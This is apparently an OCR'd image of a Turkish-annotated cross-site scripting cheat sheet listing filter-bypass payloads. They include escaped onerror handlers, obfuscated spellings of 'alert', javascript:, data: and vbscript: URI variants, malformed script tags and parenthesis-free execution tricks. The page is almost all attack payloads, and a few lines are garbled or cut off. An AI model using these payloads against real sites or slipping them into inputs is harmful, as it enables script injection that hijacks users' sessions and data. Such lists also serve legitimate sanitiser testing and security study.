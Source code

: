 ```jsx
<img src=x onerror="eval('\141lert(1)')"/> --> octal escape
<img src=x onerror="eval('\x61lert(1)')"/> --> hexadecimal escape

<img src=x onerror="&#x0061;lert(1)"/> --> Hexadecimal Numeric Character Referans
<img src=x onerror="&#97;lert(1)"/> --> Decimal NCR
<img src=x onerror="eval('\a\l\ert\(1\)')"/> Superfluous Escapes characters
<img src=x onerror="\u0065val('\141\u006c&#101;&#x0072t\($#49)')"/> --> hepsi birlikte

Alert engelliyse farklı şekillerde alert yazman denenebilir.
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
17795081..toString(36)
<script>eval(8680439..toString(30))(983801..toString(36))</script>

JavaScript: bloklu ise
<object data="JaVaScRiPt:alert(1)">
<object data="javascript&colon;:alert(1)">
<object data="java
script:alert(1)">
<object data="javascript&#x003A;alert(1)">
<object data="javascript&#58;alert(1)">
<object data="&#x6a;avascript:alert(1)">
<object
data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;alert(1)">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<object data="data:text/html;html,<script>alert(1)</script>"></object>
eğer data bloklu ise,
<embed code="DaTa:text/html,<script>alert(1)</script>">
<embed code="data&colon;text/html,<script>alert(1)</script>">
<embed code="data&#x003A;text/html,<script>alert(1)</script>">
<embed code="&#x64;&#x61;ta:text/html,<script>alert(1)</script>">

vbscript için
<iMg src=a onErRor="vBsCriPt:AlErT(1)"/>
<img src=x onerror="vbscript&#x003A;alert(1)">
<img src=x onerror="vb&#x63;cript:alert(1)">

<ScRipt>alert(1);</ScRiPt>
<ScRiPt>alert(1);
<script hehe> alert(1);</script>
<script
>alert(1);</script>
<scr<script>ipt>alert(1)</scr</script>ipt>
<scr<iframe>ipt>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>
<a href="javascript:alert(1)">show</a>
<a href="data:text/html;base64;

**Escaping Quotes**
\\'alert;//
String.fromCharCode(120,115,9416)
unescape(/%78%u0073%73/.source)
decodeURI(/alert(%22xss%22)/.source)
decodeURIComponent(/alert(%22xss%22)/.source)

Escaping Parentheses
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
<img src=x onerror=alert;throw 1;>
<img src=x onerror="
window.onerror=eval;throw'\u003d&#x0061;&#x006C;ert&#x0028;1&#41;'"/>
```
